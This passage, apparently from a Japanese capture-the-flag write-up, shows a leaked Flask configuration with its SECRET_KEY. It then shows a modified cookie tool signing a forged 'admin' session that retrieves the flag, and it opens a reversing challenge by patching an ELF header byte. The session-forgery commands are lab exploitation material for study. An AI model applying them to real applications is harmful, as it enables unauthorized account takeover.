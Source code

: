 ```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'events_sesh_cookie', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///my.db', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

`SECRET_KEY` が含まれています。これでセッションを改ざんして `user` のデータを `"admin"` に変えてみましょう。[noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager) を辞書だけでなく文字列も署名できるように改造した上で、先程得られた `SECRET_KEY` を使って `"admin"` を署名します。

```
$ diff session_cookie_manager.py kaizan.py 
53c53
<         session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
---
>         session_cookie_structure = ast.literal_eval(session_cookie_structure)
$ python3 kaizan.py encode -s 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y' -t '"admin"'
ImFkbWluIg.D9UmMw.rThoC1QSMf1RiAa-CYu9gEbNQyg
```

これを Cookie の `user` にセットし、`/flag` にアクセスするとフラグが得られました。

```
fb{e@t_aLL_th0s3_c0oKie5}
```

## Reversing
### SOMBRERO ROJO (part 1) (424)
> The binary has two flags, submit the other flag to the part 2.
>  
> 添付ファイル: SOMBRERO_ROJO.tar.gz

`SOMBRERO_ROJO.tar.gz` を展開すると `sombrero_rojo` というファイルが出てきました。どのようなファイルか `file` コマンドで確認しましょう。

```
$ file ./sombrero_rojo
sombrero_rojo: ELF 64-bit MSB *unknown arch 0x3e00* (GNU/Linux)
```

よくわからないアーキテクチャの ELF のようです。私が問題を確認した時点で、[@theoldmoon0602](http://twitter.com/theoldmoon0602) さんによって 先頭から 6 バイト目 (`e_machine`) の `02` を `01` に変えるだけで以下のように x86_64 の ELF として解釈できることがわかっていました。

```
$ file sombrero_rojo
sombrero_rojo: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=73bc159acbf342411d109a94d1d61533450ecf9f, stripped
```
